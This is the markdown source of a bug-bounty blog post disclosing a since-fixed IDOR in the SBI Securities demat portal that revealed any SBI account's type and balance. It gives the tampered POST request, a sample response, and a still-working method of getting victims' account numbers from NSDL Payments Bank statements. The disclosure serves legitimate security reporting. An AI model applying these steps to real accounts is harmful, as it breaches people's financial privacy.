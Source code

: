 ```yaml
---
layout: post
title: How I could check anyone’s SBI bank Account balance using just phone numbers.
date: 2025-10-21
summary: A parameter-tampering IDOR in a demat portal’s Get Balance workflow allowed unauthorized retrieval of account type and live Account balance by swapping the AccountNo value.
categories: VDP
tags: [IDOR]
published: true
---
```



<p align="center">
  <img src="/blog/images/SBI-banner.png">
</p>


Hello Bug Hunters,

Hope your bounties💸 are treating you well. Recently, I opened a bank account with SBI (I usually prefer private banks, but needed this for specific reasons). Like many government banks, they pushed additional services — insurance and a demat account. Not knowing these weren't mandatory, I declined insurance but agreed to open a demat account.

The next day, I received my credentials via email and logged into my demat account. While exploring the platform, I noticed an interesting feature. Although I typically avoid testing assets that don't offer rewards (no money, no bugs), I figured this would only take 5 minutes to test.

In this writeup, I'll disclose a critical security flaw I discovered in SBI Bank's system that allowed me to check anyone's bank account balance using just their phone number and account number. (doesn't need to have a demat account)



### Vulnerability Overview:

The vulnerability was an **Insecure Direct Object Reference (IDOR)** in the "Get Balance" feature of the SBI Securities demat account portal. By manipulating the `AccountNo` parameter, I could retrieve the account balance of any SBI bank account. (doesn't need to have a demat account)

### Attack Prerequisites:

Getting Account details(Account Number): (still works)


#### **Step 1:** Obtaining Account Details:

The main challenge was obtaining the victim's account number. From an attacker's perspective, bank account numbers aren't publicly available. However, I discovered that **NSDL Payments Bank** displays the receiver's complete account details in transaction statements — including account number, IFSC code, and name — when you send money via phone number or UPI ID.


<p align="center">
  <img src="/blog/images/nsdl-statement.jpg">
</p>


#### **Step 2:** Exploiting the IDOR Vulnerability to Obtain the Account Balance:

After logging into my demat account, I found a feature called "Get Balance" that fetches the bank account balance linked to the demat account. This feature had a critical flaw.

The request contained a `POST` parameter `&AccountNo=1234567890` that was vulnerable to IDOR. By replacing my account number with the victim's account number, the response revealed:

The victim's account balance

`Account type (S=Savings, C=Current)`

<p align="center">
  <img src="/blog/images/sbi-dashboard.png">
</p>

<p align="center">
  <img src="/blog/images/sbi-bug.jpeg">
</p>

### Technical Details:

### Vulnerable Request:

```http
POST /FundHoldandrelease?method=processOIResult HTTP/2
Host: trade.sbisecurities.in
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=YOUR_SESSION_ID
User-Agent: Mozilla/5.0
Referer: https://trade.sbisecurities.in/authenticate

ClientId=400086XXXX&UserId=722XXX1&sClientType=IC&BankId=004&AccountNo=443854XXXXX&TransactionType=3&Flag=BL&Channel=I&Terminal=ITS&theForm=fundholdreleaseform&checkID=40008XXXXX
```


### Response:

```http
HTTP/2 200 OK
Content-Type: application/json
Content-Length: 37
Content-Security-Policy: report-uri /report-csp.php
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains
Access-Control-Allow-Origin: https://trade.sbisecurities.in
Set-Cookie: BIGipServertrade.sbisecurities.in={redacted}; HttpOnly; Secure

{"code":"SUCCESS","data":"S|5407.19"}
```

The response format `"S|5407.19"` indicates:

- **S** = Savings account type
- **5407.19** = Current account balance in INR


### Disclosure and Resolution:

I responsibly disclosed this security flaw to [**CERT-In**](https://www.cert-in.org.in/), and they coordinated with SBI to fix the issue.

***

I hope you found this writeup informative. If you have any questions, feel free to reach out to me on [Linkedin](https://linkedin.com/in/nxtexploit).

May God reward you with goodness and abundant bounties.

**— Aziz Al Aman**

